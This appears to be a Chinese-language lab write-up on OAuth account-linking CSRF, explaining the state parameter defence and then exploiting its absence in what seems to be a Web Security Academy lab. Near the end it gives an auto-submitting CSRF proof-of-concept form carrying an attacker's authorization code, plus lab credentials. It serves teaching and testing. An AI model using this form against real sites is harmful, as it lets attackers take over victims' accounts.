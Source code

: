 ### OAuth 服务方的绑定关系

首先跳转到 OAuth 服务方，且完成 OAuth 认证后：

- code 绑定授权会话状态：code 唯一对应授权服务器的临时记录，包含`client_id`、`user_id`、`scope`、`redirect_uri`等信息。
- access_token 绑定 client_id 和 user_id：生成时明确关联客户端（`client_id`）和用户（`user_id`），通常还关联权限范围（`scope`），绑定关系存储于服务器或编码在令牌中（如 JWT）。
- code 到 access_token 的间接绑定：code 通过关联的授权会话状态（含`client_id`和`user_id`），决定 access_token 的绑定对象，服务器通过 code 查询这些信息后生成对应令牌。

试想一下，整个授权过程中，攻击者自己在 OAuth 服务方注册账号，然后诱导第三方网站用户使用攻击者自己的 code 换取 token，那么就会导致第三方网站的用户绑定攻击者的 OAuth 账号。

### 第三方服务器阻止上述 CSRF

##### state 参数

**作用**：防御 CSRF 攻击的核心机制。

**流程**：

1. 第三方网站生成 state：发起授权请求时，生成唯一随机值（如加密随机数）。
2. 绑定用户会话：将 state 存储在用户浏览器的 Session 中。
3. 携带 state 访问 OAuth 请求授权。
4. OAuth 返回到 callback 接口的重定向响应。
5. 访问第三方 callback 换取 access token：第三方服务器验证**参数里**的 state 和 cookie 中的 session 是否绑定。

防御原理：

- 验证 state 一致性：第三方网站收到回调后，比对返回的 state 与 Session 中存储的是否一致。

- 攻击者困境：

  攻击者能诱导用户发送自己的 code，但是猜测不出用户的 state 值。导致访问第三服务的 callback 接口时，第三方服务器验证 code 与 state 不匹配。

注：基于 state 的防御，只是验证了 state 和 session 是否绑定，也就是说，它是**完全基于第三方网站的防御**，和 OAuth 服务方**毫无关联**。然而进行 CSRF 访问 callback 时，state 需要作为**参数**而存在，攻击者无法构造出 state 放在表单里。

![image-20250513154326227](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513154326227.png)

```
博客网站账号：wiener:peter
社交媒体资料：peter.wiener:hotdog
```

### 未使用 state 参数导致的 CSRF

整个 OAuth 过程是传统的授权码模式。

个人信息页面发现一个链接：

```
https://oauth-0af9001103de21b280650b6902e800f5.oauth-server.net/auth?client_id=t44yu1c5jg733p91fyb3u&redirect_uri=https://0a99008503b421e580030d0900070025.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email
```

![image-20250513160241729](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513160241729.png)

点击后获取一个 code，并重定向到 callback 接口：

![image-20250513160322214](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513160322214.png)

然后使用此 code 访问 /oauth-linking 页面（callback 接口），完成了个人信息链接到社交媒体。

![image-20250513160400388](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513160400388.png)

整个操作就两个包：

![image-20250513160652364](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/OAuth%20%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250513160652364.png)

1. 第一个包是访问 OAuth 服务方获取 code。
2. 第二个包是使用 code 访问链接请求。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a99008503b421e580030d0900070025.web-security-academy.net/oauth-linking">
      <input type="hidden" name="code" value="ALSPTA4DppEl8klCGzhh1EmB7ZEufE4Wadt6HEOtqyt" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

发送给 administrator 用户，此用户使用 wiener 的 code，访问绑定链接，会导致这个网站的 administrator 用户绑定到 OAuth 的 wiener 上，那么使用 OAuth 的 wiener 登录，就可以访问到 administrator  用户。
